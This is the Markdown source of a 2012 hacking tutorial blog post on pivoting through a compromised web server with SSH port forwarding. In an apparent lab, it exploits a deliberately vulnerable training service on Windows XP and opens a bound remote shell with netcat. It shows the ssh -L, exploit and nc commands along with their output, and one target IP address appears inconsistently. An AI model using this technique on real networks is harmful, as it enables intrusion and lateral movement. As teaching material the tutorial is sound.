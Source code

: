 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 1: SSH"
date: 2012-10-06 18:10:26 -0400
comments: true
categories: howto hacking
alias: /2012/10/introduction-to-pivoting-part-1-ssh.html
---
```


Pivoting is a technique that allows attackers to use a compromised system to attack other machines in the same network, or more devastatingly, machines in another network that the compromised machine has access to. There are several techniques that can be used to pivot deeper into the network, and I'll be describing some of them in the next few articles. I've found that this topic can be a bit confusing to beginners, and I hope that these articles will help clear things up. In this article, we'll look at pivoting with SSH.

<!--more-->

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

->![](/images/2012-10-06/01.jpg)<-

We've already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine.

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I've written a quick exploit for Server-Strcpy.exe that binds a shell on port 4444, and can be downloaded [here](http://techorganic.com/software/serverstrcpy.py).

### The attack

Since we have SSH access to the web server, we can use SSH port forwarding to use it as our pivot. We run the following command on our attacking machine: 

```
ssh -L 127.0.0.1:10000:192.168.63.142:10000 webmaster@192.168.81.181
```

This tells SSH that we want to forward connections to port 10000 on our machine to port 10000 on 192.168.63.141 (Windows XP) through 192.168.81.181 (web server).

Once we've authenticated and logged in to 192.168.81.181, we can verify that port 10000 is running on our machine: 

```
# netstat -antp | grep 10000
tcp        0      0 127.0.0.1:10000         0.0.0.0:*               LISTEN      8230/ssh
```

We're ready to run our exploit. Our exploit takes two arguments, the target's IP address and the port to connect to. Since we are pivoting our attack through the web server, we specify port 10000 on our own machine: 

```
# ./serverstrcpy.py 127.0.0.1 10000
[+] sending payload of length 1479
[+] done, check port 4444 on target
```

The exploit claims to be successful, and we can verify it by using netcat to connect to port 4444 on the target. Keep in mind that we do not have direct access to the target, so we have to use SSH's local port forwarding again. This time, we forward port 4444 on our machine to port 4444 on the target: 

```
ssh -L 127.0.0.1:4444:192.168.63.142:4444 webmaster@192.168.81.181
```

Now when we connect to port 4444 on our machine with netcat, we get a shell on the Windows XP machine: 

```
# nc -v 127.0.0.1 4444
localhost [127.0.0.1] 4444 (?) open
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\WINDOWS\system32>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\WINDOWS\system32>
```

We've successfully pivoted our attack through the web server and obtained a remote shell on the Windows XP machine on the internal network. That concludes the first part of this series of pivoting articles. In part 2, we'll look at using Proxychains to pivot our exploit and hack into the Windows XP machine. 

